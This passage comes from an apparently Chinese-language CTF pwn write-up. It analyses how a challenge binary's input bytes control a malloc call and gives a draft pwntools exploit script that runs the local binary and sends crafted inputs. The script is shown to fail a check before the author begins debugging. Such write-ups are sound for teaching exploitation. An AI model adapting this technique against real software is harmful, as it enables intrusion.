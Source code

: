 观察上面执行malloc的情况，这个要求我们的最高字节是10，才能执行malloc，然后第三字节决定了malloc的大小（two_byte是从低字节数的，第三字节是从高字节数的），然后这个把malloc这个地址记录在a1.one_byte偏移这里。

我们暂定申请0x10大小的chunk，然后将one_byte设置成0，那目前的exp应该为下面这个？

```python
from pwn import *
context.log_level='debug'
p=process('./a')
#gdb.attach(p,'b *$rebase(0xec6)\nc')
p.recvuntil('first,tell me your name.\n')
p.send('1')

p.recvuntil('How many pieces of data?\n')
p.sendline('1')
p.sendline('1')

sleep(0.2)
p.sendline('1')

p.recvuntil('[+++++++++++++++++++++++++++++++++++++++++++++++++++++++++]\n')
p.sendline('10001000')
p.interactive()
             
```

可是运行一下发现，if的检查没有过去，出现了死循环。把第四行注释取消调试一下。

<img src="/upload/img/image-20220514092930102.png" alt="image-20220514092930102" style="zoom: 50%;" />
